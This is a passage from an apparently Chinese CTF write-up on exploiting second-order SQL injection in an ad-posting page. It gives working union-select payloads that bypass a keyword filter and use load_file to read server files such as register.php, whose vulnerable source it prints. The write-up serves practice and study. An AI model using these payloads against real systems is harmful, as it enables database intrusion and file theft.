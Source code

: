 只能换个思路

在发布广告的页面输入单引号提交, 然后查看广告详情

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282315086.png)

有报错, 说明是二次注入

试了下 and order by updatexml extractvalue floor rand 这些都被过滤了, 不能报错注入

union select 没被过滤, 可以手工猜列数

空格会被删掉, 用 `/**/` 绕过

```sql
'/**/union/**/select/**/1,user(),database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

一直试到 22 列...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282318322.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282318276.png)

root 账号, 可以 load_file, 不过 flag.php /flag 都不存在, 应该是在数据库里

于是先读了一下 addads.php 看看过滤了什么

```php
if(preg_match("/updatexml|extractvalue|floor|name_const|join|exp|geometrycollection|multipoint|polygon|multipolygon|linestring|multilinestring|#|--|or|and/i", $title))
```

问题不大

然后读 register.php 查看表的结构

```sql
'/**/union/**/select/**/1,load_file('/var/www/html/register.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

```php
<?php
include_once("./config.php");
error_reporting(0);

if(isset($_POST['ac'])){
    if($_POST['ac'] === 'register'){
        $username = htmlspecialchars(addslashes($_POST['username']));
        $password = md5($_POST['password']);
        // echo $username;
        // if(check($username)){
        //  die("Oh No! You are a hacker!! Not here!!!<br>");
        // }
        // echo $username;
        $sql_query = "select * from users where name = '$username' limit 0,1";
        $sql_insert = "insert into users (name, pass) values ('$username','$password')";

        $result_query = $conn->query($sql_query);
        if($result_query->num_rows){
            die("<font color='red' size='4'>该用户已被注册</font>");
        }else{
            $result_insert = $conn->query($sql_insert);
            if($result_insert){
                header("Location: login.php");
                exit();
            }else{
                die("<font color='red' size='4'>注册失败</font>");
            }
        }
```